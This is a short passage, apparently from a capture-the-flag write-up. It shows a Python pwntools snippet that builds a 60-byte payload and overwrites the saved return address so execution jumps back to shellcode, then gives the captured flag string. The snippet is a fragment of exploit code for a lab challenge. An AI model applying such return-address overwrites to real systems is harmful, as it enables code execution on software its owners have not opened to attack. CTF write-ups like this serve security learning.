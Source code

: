 ```python

shellcode  = b''
shellcode += stage2
shellcode += (
    p32(flag_ptr - 0x4c - 40) + # overwrite saved ra. return to shellcode
    p32(0x0154ee) + # puts
    b'C'*16
)
assert(len(shellcode) == 60)
```

Once we send the shellcode to the remote, we get the flag!

`flag{uniform378028xray4:GE2U7tG7DN-hnLyB9Rr6kttpgaZ3h0HfL6dK3zzDITHThDtQj7VdXarD4HQEw9031oy2LCeUyUiDHQDweGPfNqk}`
